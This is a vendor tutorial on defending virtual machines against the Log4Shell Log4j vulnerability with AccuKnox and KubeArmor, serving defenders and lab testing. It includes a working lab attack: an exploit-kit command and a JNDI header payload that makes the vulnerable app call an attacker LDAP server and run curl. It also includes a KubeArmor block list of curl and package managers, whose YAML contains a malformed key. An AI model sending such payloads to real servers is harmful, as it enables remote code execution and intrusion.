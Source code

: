 ```yaml
---
title: Defending Against Log4Shell
description: The Log4Shell vulnerability (CVE-2021-44228) has demonstrated the critical need for robust runtime security in modern IT infrastructures. Attackers exploit this vulnerability by injecting malicious code via the vulnerable Log4j library, often leading to unauthorized system access. Here, we will show how to secure your virtual machines (VMs) against such attacks using AccuKnox Runtime Security and KubeArmor.
---
```


# Defending Against Log4Shell

The Log4Shell vulnerability (CVE-2021-44228) has demonstrated the critical need for robust runtime security in modern IT infrastructures. Attackers exploit this vulnerability by injecting malicious code via the vulnerable Log4j library, often leading to unauthorized system access. Here, we will show how to secure your virtual machines (VMs) against such attacks using **AccuKnox Runtime Security** and **KubeArmor**.

## Setting the Stage: The Attack Environment

Log4Shell leverages the **JNDI lookup functionality** in vulnerable Log4j versions. Attackers can trigger remote code execution by simply injecting a malicious payload into log messages.

## **The Victim: A Vulnerable Web Server**

The environment requires **Java 1.8.0_181** or a compatible version to simulate the attack.

![image-20241226-090600.png](./images/vm-log4shell/1.png)

Begin by cloning the vulnerable application repository from GitHub. This repository contains a Log4j-vulnerable application designed for testing.

`git clone https://github.com/christophetd/log4shell-vulnerable-app && cd log4shell-vulnerable-app`

After cloning the repository, navigate to the directory and build the application using Gradle. The command `./gradlew bootJar --no-daemon` compiles the application and prepares it for execution.

![image-20241226-090724.png](./images/vm-log4shell/2.png)

Once the build process completes, navigate to the `build/libs` directory and launch the application using Java. At this point, the application runs locally, simulating a system with the Log4Shell vulnerability.

`/opt/jdk/jdk1.8.0_181/bin/java -jar ./log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar`

![image-20241226-101932.png](./images/vm-log4shell/3.png)

## Attack Scenario

The **Log4Shell** exploit allows attackers to manipulate vulnerable systems by injecting malicious payloads into application logs. The injected payload triggers a **JNDI lookup**, fetching an attacker-controlled resource and executing unauthorized code.

For example, an attacker might craft a payload using a **JNDI exploit kit**:

`java -jar JNDI-Exploit-Kit.jar -L localhost:1389 -C "curl http://localhost:9001"`

![image-20241226-101547.png](./images/vm-log4shell/4.png)

Prepare the HTTP server for reverse connection

`docker run --rm -p 9001:9001 hashicorp/http-echo -listen=:9001 -text="hello"`

This payload exploits the vulnerability, allowing the attacker to execute commands such as `curl`.

`curl http://172.16.250.140:8080/ -H 'X-Api-Version: ${jndi:ldap://172.16.250.141:1389/gog049}'`

As shown in the screenshot below, we observed the following, confirming the successful exploitation of Log4Shell:

- **LDAP server hit:** Indicates the vulnerable application initiated the JNDI lookup as instructed by the payload.

- **HTTP request:** Confirms the application executed the payload, triggering an HTTP request via the `curl` command.

![image-20241226-101653.png](./images/vm-log4shell/5.png)

![image-20241226-101713.png](./images/vm-log4shell/6.png)

![image-20241226-101751.png](./images/vm-log4shell/7.png)

## Securing Against Log4Shell Exploits with AccuKnox Runtime Security

AccuKnox Runtime Security offers real-time protection to defend against unauthorized or malicious activities by enforcing precise security policies within your environment. By leveraging AccuKnox's policy-driven approach, organizations can effectively block exploitation attempts like Log4Shell and safeguard sensitive assets from unauthorized access.

Let's walk through the steps to protect VMs from such attacks using **AccuKnox Runtime Security**:

**Ensure AccuKnox Runtime Security is Configured:** For virtual machines (VMs) environments, you can onboard them to the AccuKnox platform to extend runtime security capabilities. Follow the instructions provided in the official documentation: [Onboarding and Deboarding VMs with Systemd](https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/ "https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/"). By onboarding your VMs, you enable AccuKnox to monitor and protect workloads hosted on them, ensuring a comprehensive security posture.

![image-20241227-022828.png](./images/vm-log4shell/8.png)

![image-20241227-023020.png](./images/vm-log4shell/9.png)

**Navigate to Policies**: In the AccuKnox dashboard, access the **Policies** section under the **Runtime Security** tab. This is where you can define and enforce security rules to block exploitation attempts like the Log4Shell vulnerability.

![image-20241227-023424.png](./images/vm-log4shell/10.png)

**Apply Policies to Block Exploits**: Deploy relevant KubeArmor policies to restrict malicious behavior. For example, you can block unauthorized execution commands or access to sensitive resources by applying the following policy:

![image-20241226-103354.png](./images/vm-log4shell/11.png)

```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorHostPolicy
Policymetadata:
  name: disallow-exec
spec:
  severity: 1
  message: "disallow unwanted execings"
  nodeSelector:
    matchLabels:
      kubearmor.io/hostname: "*"
  process:
    matchPaths:
    - path: /usr/bin/apt
    - path: /usr/bin/apt-get
    - path: /bin/apt
    - path: /bin/apt-get
    - path: /usr/bin/dpkg
    - path: /bin/dpkg
    - path: /usr/bin/gdebi
    - path: /bin/gdebi
    - path: /usr/bin/make
    - path: /bin/make
    - path: /usr/bin/yum
    - path: /bin/yum
    - path: /usr/bin/rpm
    - path: /bin/rpm
    - path: /usr/bin/dnf
    - path: /bin/dnf
    - path: /usr/bin/pacman
    - path: /usr/sbin/pacman
    - path: /bin/pacman
    - path: /sbin/pacman
    - path: /usr/bin/makepkg
    - path: /usr/sbin/makepkg
    - path: /bin/makepkg
    - path: /sbin/makepkg
    - path: /usr/bin/yaourt
    - path: /usr/sbin/yaourt
    - path: /bin/yaourt
    - path: /sbin/yaourt
    - path: /usr/bin/zypper
    - path: /bin/zypper
    - path: /usr/bin/curl
  action: Block
metadata:
  name: disallow-exec
```

This policy ensures that malicious commands such as `curl` or `apt`, commonly used during exploitation attempts, are effectively blocked.

After enforcing the policy, AccuKnox Runtime Security triggers an alert if there are any violations. This alert provides detailed insights into the blocked exploit attempt, including information about the source of the malicious request, enabling you to monitor and respond to threats in real-time effectively

![image-20241226-102918.png](./images/vm-log4shell/12.png)

![image-20241226-103019.png](./images/vm-log4shell/13.png)
